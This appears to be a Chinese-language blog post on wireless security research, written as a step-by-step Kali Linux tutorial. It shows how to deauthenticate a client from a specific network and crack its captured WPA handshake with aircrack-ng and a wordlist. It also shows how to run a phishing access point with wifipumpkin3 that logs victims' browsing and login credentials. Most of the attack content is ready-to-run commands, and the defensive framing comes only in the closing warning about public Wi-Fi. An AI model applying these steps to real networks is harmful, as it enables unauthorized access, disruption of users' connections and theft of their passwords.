

# 无线安全研究

[2022-04-05]()

最近领导要求研究一下无线安全的内容，最后选择了两个方向，一个是WIFI密码破解，一个是WIFI钓鱼，这里记录一下。
## 1、WiFi密码破解
WiFi密码破解主要是利用Linux下的aircrack工具。由于虚拟机不使用主机的无线网卡，这里需要准备一个外置的无线网卡。
### 0x01 安装驱动
如果你购买的无线网卡是免驱的，那么恭喜你不用受到安装无线网卡驱动的折磨，如果不是免驱的，你就要先给它装上无线网卡的驱动了。
安装驱动其实就是几条命令，根据你购买的网卡型号进行安装，这里我购买的网卡是需要安装RTL8811CU驱动的：

	apt update
	apt install bc -y
	git clone https://github.com/cilynx/rtl88x2BU_WiFi_linux_v5.3.1_27678.20180430_COEX20180427-5959.git
	cd rtl88x2BU_WiFi_linux_v5.3.1_27678.20180430_COEX20180427-5959
	VER=$(sed -n 's/\PACKAGE_VERSION="\(.*\)"/\1/p' dkms.conf)
	sudo rsync -rvhP ./ /usr/src/rtl88x2bu-${VER}
	sudo apt-get install dkms
	sudo dkms add -m rtl88x2bu -v ${VER}
	sudo dkms build -m rtl88x2bu -v ${VER}
	sudo dkms install -m rtl88x2bu -v ${VER}
	sudo modprobe 88x2bu

这里注意从github上下载的时候看一下最新的是多少，下载最新的。
安装过程中如果遇到其他问题直接百度都能找到解决办法，唯独遇到头文件报错的问题是解决不了的，即使你自己下载头文件安装进去也不行，这里我最后找到的解决办法就是给kali装上官方源，然后用官方源更新你的kali，更新完之后再装就可以了。
### 0x02 接入无线网卡
主机USB接口直接插入无线网卡，Kali虚拟机弹窗提示，选择连接到虚拟机，选中Kali，点击确定。

此时可以看到wifi虽然显示无连接，但是已经可以搜索附近的wifi了。

打开终端输入ifconfig查看网卡，存在wlan0。也说明网卡已经识别到了。

### 0x03 正文开始

1. 开启网卡监听模式，输入命令：`airmon-ng start wlan0`
2. 查看是否监听成功：`iwconfig`。wlan0变成了wlan0mon，监听成功。
3. 探测附近的WiFi：`airodump-ng wlan0mon`
	

   主要看三个参数：
   	
	- BSSID：路由器的MAC地址
	- PWR：信号值，绝对值越低，说明信号越强
	- CH：当前路由器使用的信道

4. 找一个信号比较强的WIFI进行监听，这里选择了Meeting-01，BSSID为：90:76:9F:81:C8:9A，使用的信道为11，输入命令，开始监听：

`
	airodump‐ng ‐‐bssid 90:76:9F:81:C8:9A ‐c 11 ‐w test wlan0mon`

	参数说明：
		–bssid：路由器的MAC地址
		-c：路由器使用的信道。**（信道一定不要弄错）**
		-w：抓取的握手包名称，可以选择输出的路径，这里使用默认输出路径为根目录

下面是连接此WiFi的用户信息，BSSID，STATION等都可以看到。

5. 这个终端不要关，我们任选一个用户进行攻击，使其断开与路由器的连接。（原理没有深究，大概是使向目标发送大量数据，或者类似于ARP欺骗的攻击，使设备与路由器断开连接，停止攻击后，设备会自动连接上路由器，此时就可以抓取到握手包。）

	`aireplay‐ng ‐0 10 ‐a 90:76:9F:81:C8:9A ‐c 42:C7:0A:57:0B:E4 wlan0mon`

		参数说明：
			-0、–deauth：指定对目标进行攻击的次数
			-a：路由器的MAC地址
			-c：目标MAC地址

6.	等待攻击完成，此时在第一个终端会显示握手包抓取成功，如下图：

7. 然后在根目录会生成有一些握手包文件，其中包含test-01.cap
8. 在终端输入命令，开始进行密码爆破：

		aircrack‐ng ‐w /usr/share/wordlists/rockyou.txt test‐01.cap

9.	结果检验
### 0x04 总结
感觉就是学习了一个工具的大概使用过程，aircrack-ng原理是使用CPU去跑包，全程不需要联网，破解速度看个人CPU的性能。

## 2、钓鱼WiFi
钓鱼WiFi主要是利用Linux下的wifipumpkin3工具。由于虚拟机不使用主机的无线网卡，这里需要准备一个外置的无线网卡。
### 0x01 工具安装
#### 1、python安装依赖
	sudo apt install libssl-dev libffi-dev build-essential
#### 2、安装git
	apt-get install git
#### 3、下载WIFIpumpkin3
	git clone https://github.com/P0cL4bs/wifipumpkin3.git
#### 4、安装PyQt5
	sudo apt install python3-pyqt5
验证是否安装成功，如果打印了done则表示安装成功

#### 4、编译安装WIFIpumpkin3
	sudo python3 setup.py install
如果显示下图这样就代表安装成功了

### 0x02 启动WiFipumpkin3
输入命令：

	sudo wifipumpkin3
即可进入工具主界面

### 0x03 配置wifipumpkin3
#### 1、设置网卡这里的网卡同样要具备ap模拟的网卡
通过`iwconfig`查看你的网卡名称，这里我的是`wlx1cbfceed45b1`

	set interface wlx1cbfceed45b1
#### 2、设置wifi名称
	set ssid 名称
这里名称自己命名
#### 3、设置代理插件
	set proxy noproxy
#### 4、设置dns
	ignore pydns_server
#### 5、开启钓鱼wifi
	star

若成功开启则返回以下内容

#### 6、监听客户端
我们另外打开一个终端，监听以下终端，如果有终端连接则会看到内容。

### 0x04 客户端连接
我们拿出手机，连接这个WiFi。

然后查看电脑，可以看到已经获取到了连接者的信息。
名称、IP、MAC等。

然后拿出手机，随便访问几个网站。

可以看到工具可以实时监控连接者访问的网站。

然后我们拿出手机，访问一个需要登录的网站，并输入账号密码

然后查看电脑上的WiFipumpkin3工具

可以看到已经捕获到了客户登录的账号和密码。
### 0x05 总结
上文从渗透的角度说明陌生ifi，攻击者可以利用树莓派等小型设备放入大型的公共场所设置免费公共wifi是非常可怕的，所以提醒最好最好最好(重要的事情说三遍)不要连接陌生的wifi很容易盗取你的信息
